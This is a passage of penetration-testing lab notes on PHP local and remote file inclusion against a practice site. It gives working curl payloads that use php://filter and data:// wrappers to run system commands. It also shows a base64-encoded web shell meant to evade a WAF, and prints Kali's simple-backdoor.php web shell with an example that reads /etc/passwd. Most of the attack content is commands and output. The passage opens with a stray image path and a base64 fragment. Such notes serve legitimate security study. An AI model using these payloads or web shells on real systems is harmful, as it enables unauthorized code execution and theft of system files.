 ```
dF9lcnJvcik7Cn0KZWNobyAiQ29ubmVjdGVkIHN1Y2Nlc3NmdWxseSI7Cj8+Cgo8L2JvZHk+CjwvaHRtbD4K
...
```
>[!Note]
> `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php`: notice that the <body> tag is not closed at the end of the HTML code. We can assume that something is missing.
#### **data://**
Use the data:// wrapper to achieve code execution.This wrapper is used to embed data elements as **plaintext** or **base64-encoded** data in the running web application's code. 
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
...
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
admin.php
bavarian.php
css
fonts
img
index.php
js
...
```
> add data:// followed by the data type and content.

Bypass WAF, we can try to use the data:// wrapper with base64-encoded data.
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
> (Base64 decode) PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
> <?php echo system($_GET["cmd"]);?>

>[!Tip]
> `data://` wrapper will not work in a default PHP installation. To exploit it, the **[allow_url_include](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include)** setting needs to be `enabled`.\
> 新版 php 預設都是 Off

### 3. Remote File Inclusion (RFI)
RFI vulnerabilities allow us to include files from a remote system over HTTP or SMB.\
Kali Linux includes several PHP webshells in the `/usr/share/webshells/php/` directory that can be used for RFI.
```
┌──(chw㉿CHW-kali)-[/usr/share/webshells/php/]
└─$ cat simple-backdoor.php
...
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
...
```
```
┌──(chw㉿CHW-kali)-[/usr/share/webshells/php/]
```